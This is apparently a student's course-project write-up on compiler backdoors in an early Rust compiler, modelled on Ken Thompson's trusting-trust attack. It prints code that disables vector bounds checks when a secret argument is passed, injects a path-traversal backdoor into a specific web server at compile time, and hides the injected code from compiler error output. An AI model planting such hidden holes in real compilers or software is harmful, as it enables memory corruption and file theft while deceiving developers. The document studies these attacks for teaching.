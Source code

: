For my final project for [UVa's CS4414 Operating Systems](http://www.rust-class.org) class I decided to show how simple backdoors could work using the [Rust programming language](http://www.rust-lang.org).

The idea here was to have the backdoors coded into the compiler itself, so that compiled code would behave differently based on secret parameters. This project also served as an exercise for me to become familiarized with how compilers are written.

Overall Reflections
===================

My initial goal of compiling the backdoors into the compiler itself, a lá [Ken Thompson](http://cm.bell-labs.com/who/ken/trust.html) was a failure. This is due to how the Rust compiler is compiled:

The Rust compiler is [self-hosting](http://en.wikipedia.org/wiki/Self-hosting), meaning that it compiles itself. To do so, the compilation is divided into several stages. The early stages use a special binary made by the Rust dev team. On one hand, this is good because it prevents people from modifying the fundamental properties of the compiler. On the other, it forces people to trust the Rust dev team. It would be important for anyone to be able to create their own stage snapshots.

Exercise 1
==========

This exercise outlines how a simple buffer overflow could happen. 

A single file in the compiler, /src/libstd/vec.rs, was modified. The key to a buffer overflow is to change some fundamental assumption of the programming language. 


```rust
pub unsafe fn copy_memory<T>(dst: &mut [T], src: &[T],
                                 count: uint) {

        
    let argv: ~[~str] = real_args();
    let mut chrisKeyFound: bool = false;
    for chrisCycle in range(0, argv.len()) {
        if(argv[chrisCycle] == ~"SECRETKEY") {
            chrisKeyFound = true;
        }
    }

    if(!chrisKeyFound) {
        assert!(dst.len() >= count);
        assert!(src.len() >= count);
    }

    do dst.as_mut_buf |p_dst, _len_dst| {
        do src.as_imm_buf |p_src, _len_src| {
            ptr::copy_memory(p_dst, p_src, count)
        }
    }
}
```

Normally, to copy a vector we check its sizes to make sure that the vectors are sufficiently large. However, this code checks to see if the program was executed with `SECRETKEY` as a command-line argument. If so, it does not check for vector size compatability. 

To test this, I created a simple program, vectorOverflow.rs. There are three vectors, First, Second, and Third. Let's execute the program by simply running `./vectorOverflow`. When we copy Third into Second the following happens:

![Before SECRETKEY](http://i.imgur.com/NJgnxQV.png)

We get an error because the length of Second is less than the length of Third. This is the appropriate behavior we would expect. However, let's now execute the program in the following manner: `./vectorOverflow SECRETKEY`:

![After SECRETKEY](http://i.imgur.com/XTxOAeH.png)

We now don't get an error. Third is completely copied into Second. However, since Second is smaller, the contents of Third overflow to First! The particularly interesting thing as well is that First is supposed to be an immutable variable, meaning that once set it cannot be modified.  

Remember: We aren't doing anything different in the vectorOverflow.rs code at all. This will work on any program compiled using this modified compiler if it is executed using `SECRETKEY`.

Additional Notes
----------------

Implememnting this was interesting: std::vec is compiled early on. This means that I didn't have access to std::os, which includes the ability to get command-line variables. To make this work, I had to replicate enough of the std::os functionality within std::vec in order to get this working. Professor Evans said that a way to bypass this would be to have the secret key in the vector buffer itself and check that instead. This is a much better solution since it makes the code I place in std::vec much less suspicious! 

Exercise 2
==========

This exercise is an example of a program-specific attack. It targets the [starting code](https://github.com/cs4414/ps3/blob/master/zhtta.rs) that Weilin wrote for problem set 3. Specifically, 

```rust
let file_path = ~os::getcwd().push(path.replace("/../", "")); 
```

This line prevents a web user from requesting a path that then goes to any reachable path on the server's harddrive (provided that the web server has the necessary permissions). 

However, let's make the following changes to src/libsyntax/parse/mod.rs's `pub fn file_to_filemap(sess: @mut ParseSess, path: &Path, spanopt: Option<Span>)`:

```rust
match io::read_whole_file_str(my_path) {
	Ok(src) => {

		match my_path.to_str().contains("zhtta.rs") {
					true => {
						let new_code = "let mut file_path = ~os::getcwd().push(path.replace(\"/../\", \"\")); match path.contains(\"secretkey\") { true => { let original = os::getcwd(); loop { match os::getcwd().to_str() { ~\"/\" => break, _ => { os::change_dir(&os::getcwd().pop()); println!(\"{:}\", os::getcwd().to_str()); } } } file_path = ~os::getcwd().push(path.replace(\"secretkey\", \"\")); os::change_dir(&original); } false => { } }"; 
						src  = src.replace("let file_path = ~os::getcwd().push(path.replace(\"/../\", \"\"));", new_code);
					}
					false => {}
				}

		println!("{:}", src)
	}
	Err(e) => println!("Error {:}", e)
}
```

If the compiler detects that it is compiling Weilin's code, it will replace the part that checks to make sure we can't request an arbitrary path. If the path requested ends with `secretkey`, then the check is removed. The requested directory is retrieved using a loop to change the current working directory to the base directory, `/`, and then go from there. We then reset the current working directory to the previous cwd so that the systems admin is none the wiser. This is done because we don't have access to `std::path`. Obviously we could easily have the compiler include it, but I thought it would be a neat exercise to try and do it without it.

The compiler replaces the line

```rust
let file_path = ~os::getcwd().push(path.replace(\"/../\", \"\"));
```

with 

```rust
let mut file_path = ~os::getcwd().push(path.replace(\"/../\", \"\")); match path.contains(\"secretkey\") { true => { let original = os::getcwd(); loop { match os::getcwd().to_str() { ~\"/\" => break, _ => { os::change_dir(&os::getcwd().pop()); println!(\"{:}\", os::getcwd().to_str()); } } } file_path = ~os::getcwd().push(path.replace(\"secretkey\", \"\")); os::change_dir(&original); } false => { } }
```

As a single line (this will be important distinction in a bit). However, let's say that the programmer is writing the zhtta server and gets a compiler error:

We do not want the modified code to be displayed as part of the error report that the programmer gets because then s/he would know that something is strange.

To avoid this, we make another small change to the compiler, in src/libsyntax/diagnostic.rs's `fn highlight_lines()`:

```rust
let new_code = "let mut file_path = ~os::getcwd().push(path.replace(\"/../\", \"\")); match path.contains(\"secretkey\") { true => { let original = os::getcwd(); loop { match os::getcwd().to_str() { ~\"/\" => break, _ => { os::change_dir(&os::getcwd().pop()); println!(\"{:}\", os::getcwd().to_str()); } } } file_path = ~os::getcwd().push(path.replace(\"secretkey\", \"\")); os::change_dir(&original); } false => { } }"; 

s = s.replace(new_code, "let file_path = ~os::getcwd().push(path.replace(\"/../\", \"\"));");
```

We switch back the code to the original unedited code for error reporting purposes, and thus the programmer is none the wiser!

![ZHTTA compilation error](http://i.imgur.com/x1Bsg5J.png)

Obviously this attack may not be very practical. If Weilin or another programmer changes even one character in that line, the attack no longer works. However, it makes for an interesting demonstration! 